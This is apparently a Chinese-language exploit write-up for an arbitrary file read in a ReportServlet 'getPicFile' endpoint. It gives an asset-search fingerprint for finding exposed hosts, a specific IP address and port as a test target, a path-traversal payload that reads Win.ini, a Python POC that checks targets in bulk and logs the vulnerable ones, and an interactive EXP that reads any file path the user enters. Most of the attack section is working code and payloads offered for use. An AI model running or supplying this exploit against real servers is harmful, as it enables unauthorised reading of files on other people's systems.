 ## 一、资产搜索

```
body="changeAccount('8000')"
```

## 二、网站测试

```
http://120.79.1.135:6005
```

## 三、验证漏洞

```
/ReportServlet?operation=getPicFile&fileName=/DISKC/Windows/Win.ini
```

![image-20240914210933406](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914210933406.png)

## 四、POC

```
def poc(target):
    payload = "/ReportServlet?operation=getPicFile&fileName=/DISKC/Windows/Win.ini"
    try:
        res1 = requests.get(target,verify=False)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "fonts" in res2.text:
                with open("result.txt","a",encoding="utf-8") as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    return True
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print(f"该网站[+]{target}有问题，请手动测试！！")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def exp(target):
    while True:
        content = input("请输入要查看的路径，当前目录c:,从/目录开始输入(q退出)\n>>>>>>>>>>>>>>>>>>")
        payload = "/ReportServlet?operation=getPicFile&fileName=/DISKC"
        res1 = requests.get(target, verify=False)
        if content == "q":
            exit()
        if res1.status_code == 200:
            res2 = requests.get(url=target + payload +content, verify=False, timeout=5)
            print(res2.text)
        else:
            print("该文件不存在，请重新输入！！")
```

## 六、测试结果

![image-20240914211505318](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914211505318.png)

![image-20240914211145866](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914211145866.png)

